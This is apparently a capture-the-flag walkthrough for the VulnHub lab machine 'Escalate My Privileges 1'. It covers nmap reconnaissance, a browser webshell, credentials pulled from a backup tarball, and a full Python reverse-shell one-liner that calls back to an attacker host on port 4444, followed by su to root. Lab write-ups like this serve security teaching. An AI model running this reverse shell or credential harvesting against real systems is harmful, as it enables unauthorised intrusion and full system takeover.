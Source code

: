 # Escalate My Priveleges 1 (VulnHub)

We’re given an ip, and we start with an aggressive nmap scan

```bash
nmap -A *IP* -vv
```

Get’s us this output 

```bash
genghis@khan:~/Boxes/Privilege$ cat nmapscan.txt 
genghis@khan:~$ nmap -A 10.4.227.113 -vv 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-19 13:27 PDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
Initiating ARP Ping Scan at 13:27
Scanning 10.4.227.113 [1 port]
Completed ARP Ping Scan at 13:27, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:27
Completed Parallel DNS resolution of 1 host. at 13:27, 0.00s elapsed
Initiating SYN Stealth Scan at 13:27
Scanning my_privilege (10.4.227.113) [1000 ports]
Discovered open port 111/tcp on 10.4.227.113
Discovered open port 22/tcp on 10.4.227.113
Discovered open port 80/tcp on 10.4.227.113
Discovered open port 2049/tcp on 10.4.227.113
Completed SYN Stealth Scan at 13:27, 5.06s elapsed (1000 total ports)
Initiating Service scan at 13:27
Scanning 4 services on my_privilege (10.4.227.113)
Completed Service scan at 13:27, 6.03s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against my_privilege (10.4.227.113)
Retrying OS detection (try #2) against my_privilege (10.4.227.113)
NSE: Script scanning 10.4.227.113.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.46s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.02s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
Nmap scan report for my_privilege (10.4.227.113)
Host is up, received arp-response (0.00083s latency).
Scanned at 2025-09-19 13:27:15 PDT for 15s
Not shown: 986 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:16:10:91:bd:d7:6c:06:df:a2:b9:b5:b9:3b:dd:b6 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZwfoUnj5DzMlbK5tY6JtH+GOCmEqaGPle3wxNVabnbYeAicg/35OHCZX9UNBfXHCkxrE4GuuF5dt6g70UyLNxI5iO9A4wnANDvlAfKNTq/qsQdpemYcYZSwQQLWdi8Qnno7BIR5gteI8+ZtLvFjsQ8LSJ5Hc5Lx9+lxxoZwvCJKC1UjIYaWHJPaFRQPdb2y57+63NcA/Gki5z2DRoKou4aVz1qsjwHZUlP6L5FgoZb75RbfQJe4NCY4+TGAVdstR1wgRYm7dpoHnzWQwEm8ocAekK7slUwah4brpA2u+MpmF3FVTai2+zfi02s4XbahY5/SGQeqtKj2cWfDvL0IyV
|   256 0e:a4:c9:fc:de:53:f6:1d:de:a9:de:e4:21:34:7d:1a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL6Wz1rv7fAEmPfOknHvjMFX3A3DB9/Mz9UpPQ3Zsb7lg8BwbTtlmh8e/HG70m6YeNAw+hqlWStW8gOBGSCI4h8=
|   256 ec:27:1e:42:65:1c:4a:3b:93:1c:a1:75:be:00:22:0d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ1zwLp8Vh7UFjPnbTrrL720yHvmHUKVq91Og4oHTJha
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: 400 Bad Request
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100003  3,4         2049/udp   nfs
|   100003  3,4         2049/udp6  nfs
|   100005  1,2,3      20048/tcp   mountd
|   100005  1,2,3      20048/tcp6  mountd
|   100005  1,2,3      20048/udp   mountd
|   100005  1,2,3      20048/udp6  mountd
|   100021  1,3,4      36758/tcp6  nlockmgr
|   100021  1,3,4      42186/tcp   nlockmgr
|   100021  1,3,4      51074/udp6  nlockmgr
|   100021  1,3,4      56981/udp   nlockmgr
|   100024  1          43350/tcp   status
|   100024  1          43419/udp6  status
|   100024  1          49114/udp   status
|   100024  1          53557/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
MAC Address: BC:24:11:F5:DC:E1 (Proxmox Server Solutions GmbH)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.14 (97%), Linux 5.1 - 5.15 (97%), Linux 3.13 - 3.16 (91%), Linux 3.13 - 4.4 (91%), Linux 3.16 - 4.6 (91%), Linux 3.8 - 3.16 (91%), Linux 4.10 (91%), Linux 4.4 (91%), OpenWrt 19.07 (Linux 4.14) (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=9/19%OT=22%CT=%CU=%PV=Y%DS=1%DC=D%G=N%M=BC2411%TM=68CDBCB2%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10B%TI=Z%II=I%TS=A)
SEQ(SP=107%GCD=1%ISR=10A%TI=Z%TS=A)
OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.007 days (since Fri Sep 19 13:17:09 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.83 ms my_privilege (10.4.227.113)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:27
Completed NSE at 13:27, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
           Raw packets sent: 2056 (94.060KB) | Rcvd: 43 (3.712KB)

```

Okay lots of interesting services running here. I thought I might as well start by connecting to the http server on port 80

![Screenshot_2025-09-19_13_59_46.png](Escalate%20My%20Priveleges%201%20(VulnHub)%20273559b52dc88097987fc090d68cc412/Screenshot_2025-09-19_13_59_46.png)

Okay seems like this silly little infographic is foreshadowing some privelege escalation in our near future!

As is usually standard protocol with these CTF challenges and http servers, i might as well check the robots.txt

![Screenshot_2025-09-19_14_03_27.png](Escalate%20My%20Priveleges%201%20(VulnHub)%20273559b52dc88097987fc090d68cc412/Screenshot_2025-09-19_14_03_27.png)

Okay it seems like they don’t want people looking at that directory, so that’s exactly where we’ll look!

Here’s what we find there…

![Screenshot_2025-09-19_14_07_07.png](Escalate%20My%20Priveleges%201%20(VulnHub)%20273559b52dc88097987fc090d68cc412/Screenshot_2025-09-19_14_07_07.png)

Okay sweet, it seems like we have a shell running in the browser with this user apache. Let’s check this readme.txt

```bash
apache@my_privilege:/var/www/html# cat readme.txt

HI
Find Armour User backup in /backup
```

Okay sweet! Sounds juicy, let’s head over there and see what’s going on.. 

![Screenshot_2025-09-19_15_02_14.png](Escalate%20My%20Priveleges%201%20(VulnHub)%20273559b52dc88097987fc090d68cc412/Screenshot_2025-09-19_15_02_14.png)

Okay there’s a bunch of backups, let’s see what’s in the latest backup?

```bash
apache@my_privilege:/backup/armour# tar -tzf /backup/armour/2025-09-19-17-20.tar.gz | head -n 50
home/armour/backup.sh
home/armour/Credentials.txt
home/armour/echo
home/armour/runme.sh
```

Bingo! It seems like there are some credentials here, let’s try to extract these files from the tarball

```bash
apache@my_privilege:/backup/armour# tar -xvzf 2025-09-19-17-20.tar.gz
home/armour/backup.sh
tar: home: Cannot mkdir: Permission denied
tar: home/armour/backup.sh: Cannot open: No such file or directory
home/armour/Credentials.txt
tar: home: Cannot mkdir: Permission denied
tar: home/armour/Credentials.txt: Cannot open: No such file or directory
home/armour/echo
tar: home: Cannot mkdir: Permission denied
tar: home/armour/echo: Cannot open: No such file or directory
home/armour/runme.sh
tar: home: Cannot mkdir: Permission denied
tar: home/armour/runme.sh: Cannot open: No such file or directory
tar: Exiting with failure status due to previous errors
```

Okay I’m running into some problems, it seems like I don’t have permissions to do this here, so I’ll make a directory in /tmp where we often have permissions to do these kinds of things even as a low-privilege user.

```bash
apache@my_privilege:/backup/armour# mkdir -p /tmp/armour
```

Now we’ll try to extract the files from the tarballs over there…

```bash
apache@my_privilege:/backup/armour# tar -xzf /backup/armour/2025-09-19-17-20.tar.gz -C /tmp/armour --strip-components=1
```

Seems like it worked, now let’s go over there and read these credentials!

```bash
apache@my_privilege:/tmp/armour/armour# cat Credentials.txt
my password is
md5(rootroot1)
```

Let’s go! Let’s try logging in as root here

```bash
apache@my_privilege:/tmp/armour/armour# sudo su root
sudo: sorry, you must have a tty to run sudo
```

I didn’t really expect that to work, but it seems like what’s stopping us from using the sudo command as that this web-terminal instance doesn’t have tty enabled. Let’s try spinning up a reverse shell that has tty enabled and see if we can log in as root there.

We’ll start by running our listener 

```bash
nc -lvnp 4444
```

Then inside of our webshell we type in the following reverse shell script

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

just fill in your IP where specified and run!

Bang! Now we’ve got our shell with tty enabled, and with the credentials we got getting root is as easy as entering the password! 

```bash
genghis@khan:~/Downloads$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.4.176.69] from (UNKNOWN) [10.4.227.113] 36610
bash-4.2$ su root
su root
Password: rootroot1

[root@my_privilege armour]# ls -l
ls -l
total 16
-rw-r--r-- 1 apache apache 30 Mar 21  2020 Credentials.txt
-rwxr-xr-x 1 apache apache 17 Mar 17  2020 backup.sh
-rw-r--r-- 1 apache apache 39 Sep 19 17:07 echo
-rwxr-xr-x 1 apache apache  8 Mar 17  2020 runme.sh
[root@my_privilege armour]# whoami
whoami
root
```